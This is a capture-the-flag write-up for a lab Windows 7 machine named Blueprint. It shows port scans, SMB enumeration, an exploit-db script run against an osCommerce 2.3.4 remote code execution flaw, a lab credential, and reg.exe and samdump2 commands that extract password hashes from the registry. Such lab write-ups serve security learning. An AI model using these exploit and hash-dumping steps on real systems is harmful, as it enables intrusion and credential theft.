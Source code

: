 # Blueprint

**Hostname:** `BLUEPRINT`

**OS:** Windows 7

**Users:**
```
Lab
```

**Credentials:**
```
Lab:googleplus
```

===============================================================

## Port Scan:

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-30T10:50:22
|_  start_date: 2025-05-30T10:41:52
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:ba:ce:fe:ba:b5 (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -29m01s, deviation: 34m37s, median: -9m02s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-30T11:50:22+01:00

```

## Recon:

### SMB:

**enum4linux:**

```
Nbtstat Information for 10.10.91.33:

Looking up status of 10.10.91.33
	BLUEPRINT       <00> -         B <ACTIVE>  Workstation Service
	WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
	BLUEPRINT       <20> -         B <ACTIVE>  File Server Service
	WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
	WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser

	MAC Address = 02-BA-CE-FE-BA-B5


Share Enumeration on 10.10.91.33:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Users           Disk      
	Windows         Disk      

[+] Attempting to map shares on 10.10.91.33

//10.10.91.33/ADMIN$	Mapping: DENIED Listing: N/A Writing: N/A
//10.10.91.33/C$	Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:

NT_STATUS_INVALID_PARAMETER listing \*
//10.10.91.33/IPC$	Mapping: N/A Listing: N/A Writing: N/A
//10.10.91.33/Users	Mapping: OK Listing: OK Writing: N/A
//10.10.91.33/Windows	Mapping: OK Listing: DENIED Writing: N/A

Password Policy Information for 10.10.91.33:

[+] Attaching to 10.10.91.33 using anonymous

[+] Trying protocol 139/SMB...

	[!] Protocol failed: Cannot request session (Called Name:10.10.91.33)

[+] Trying protocol 445/SMB...

[+] Found domain(s):

	[+] BLUEPRINT
	[+] Builtin

[+] Password Info for Domain: BLUEPRINT

	[+] Minimum password length: None
	[+] Password history length: None
	[+] Maximum password age: Not Set
	[+] Password Complexity Flags: 000000

		[+] Domain Refuse Password Change: 0
		[+] Domain Password Store Cleartext: 0
		[+] Domain Password Lockout Admins: 0
		[+] Domain Password No Clear Change: 0
		[+] Domain Password No Anon Change: 0
		[+] Domain Password Complex: 0

	[+] Minimum password age: None
	[+] Reset Account Lockout Counter: 30 minutes 
	[+] Locked Account Duration: 30 minutes 
	[+] Account Lockout Threshold: None
	[+] Forced Log off Time: Not Set```
```

**Anonymous login:**

```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$                            Remote IPC
Users           READ            
Windows
```

### Web Enumeration:

**Vulnerable CMS on port 8080:**
Port 8080 is an HTTP server running an oscommerce 2.3.4 CMS which is vulnerable to Unauthenticated Remote Code Execution by injecting a PHP payload into the db_database parameter of the install.php and read the system command output from configure.php.
https://www.exploit-db.com/exploits/50128

## Foothold / Privilege Escalation:

### Initial Foothold:

After enumerating and manual inspection of port 8080 I found that the server was running a vulnerable version of the OScommerce CMS specifically version 2.3.4, which is vulnerable to an Unauthenticated Remote Code Execution vulnerability.

![CMS_directory](../pictures/blueprint/CMS_directory.png)

I found a working script on the exploit-db.com site and used it's syntax to get a shell.
`python exploit.py http://$IP:8080/oscommerce2.3.4/catalog/`

![exploit_db_page](../pictures/blueprint/exploit_db_code.png)

![exploit_execute](../pictures/blueprint/exploit_run.png)

---

### Privilege Escalation:

As I ran the exploit and got a shell, I ran `whoami` and found that the RCE exploit
gives an Administrator shell. I could just into the Administrator directory and extract the root flag.

## Journal:
### User NTLM Hashes:
- Located in registries SAM, SECURITY and SYSTEM
I dumped the hashes using reg.exe:\
`reg.exe save hklm\sam SAM`\
`reg.exe save hklm\security SECURITY`\
`reg.exe save hklm\system SYSTEM`
- This saved the registries to my current working directory

![hash_registry_files_extracting](../pictures/blueprint/hash_registry_extract.png)

To dump the hashes out of the registry files I used a tool called '**samdump2'**:
```
$ samdump2 SYSTEM SAM
Administrator:500:...
Guest:501:...
Lab:1000:...
```

![hash_registry_dump](../pictures/blueprint/hash_dump.png)
